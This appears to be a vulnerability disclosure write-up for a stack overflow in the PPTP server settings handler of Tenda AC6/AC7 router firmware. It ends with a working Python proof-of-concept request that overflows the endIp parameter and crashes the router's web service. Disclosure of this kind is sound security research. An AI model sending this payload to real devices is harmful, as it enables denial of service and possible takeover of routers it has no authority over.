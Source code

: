 # AC6_Stack_overflow

Vender ：Tenda

Firmware version:US_AC6V1.0BR_V15.03.05.16_multi_TD01 && US_AC7V1.0RTL_V15.03.06.44_multi_TD01.bin

Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link:https://www.tenda.com.cn/download/detail-2661.html


#### Describe

​	The vulnerability lies in the setting of PPTP service / goform / setpptpservercfg in Tenda AC6 httpd component. If the length of startip and endip parameters is not well limited, it will lead to stack overflow.

#### Detail

​	Https form formSetPPTPServer fuction in IDA view

<img src="./img/image-20210916182726736.png" alt="image-20210916182726736" style="zoom:50%;" />

<img src="./img/image-20210916183154601.png" alt="image-20210916183154601" style="zoom:50%;" />

​	Due to the pointer defined in the function, the values of the startip parameter and endip parameter will be stored on the stack, and the length is not limited, resulting in a vulnerability

#### TEST

<img src="./img/image-20210916183755046.png" alt="image-20210916183755046" style="zoom:50%;" />

​		Grab HTTP packets

<img src="./img/image-20210916183819454.png" alt="image-20210916183819454" style="zoom:50%;" />

 	Parameterize request 

<img src="./img/image-20210916184146710.png" alt="image-20210916184146710" style="zoom:50%;" />

​	can see the service crash

<img src="./img/image-20210916184102459.png" alt="image-20210916184102459" style="zoom:50%;" />



#### POC

```
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetPptpServerCfg"
payload = "a"*0x9c+"bbbb"
data={
	"serverEn":"1",
	"startIp":"100.0.0.100",
	"endIp":"100.0.0.200"+payload,
	"mppe":"1",
	"mppeOp":"40"
}
headers={
	"Host":"1192.168.0.1",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"*/*",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://192.168.0.1",
	"Referer":"http://192.168.0.1/pptp_server.html?random=0.7706434999271096&",
	"Upgrade-Insecure-Requests":"1"
}
response = requests.request("POST", url, headers=headers, data=data)
```



